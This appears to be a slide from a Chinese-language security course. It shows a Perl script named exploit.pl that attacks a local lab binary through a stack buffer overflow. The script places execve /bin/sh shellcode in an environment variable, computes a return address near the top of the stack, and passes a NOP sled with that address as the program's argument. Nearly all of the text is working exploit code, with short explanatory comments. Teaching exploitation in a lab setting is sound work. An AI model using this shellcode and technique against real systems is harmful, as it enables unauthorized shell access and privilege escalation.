

# 例程

#!/usr/bin/perl
# exploit.pl
#以"$"定义变量，"."(dot)点号连接上下两行字符串
$shellcode ="\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69".  "\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80";
#修改以下代码行，设置正确的程序路径
$path="/home/ns/overflow/bin/vul";
#计算跳转地址的值
$ret = 0xbffffffc - (length($path)+1) - (length($shellcode)+1);
$new_retword = pack('l', $ret);
printf("[+] Using ret shellcode 0x%x\n",$ret);
$nops="\x90\x90\x90\x90\x90\x90\x90\x90";	 # 8 NOPs
$nops=$nops.$nops.$nops;				# 24 NOPs
$nops=$nops."\x90\x90\x90\x90"; 			# 28 NOPs
$argv=$nops.$new_retword;				# 28 NOPs+RETURN
%ENV=(); $ENV{SHELLCODE}=$shellcode;  exec "$path",$argv;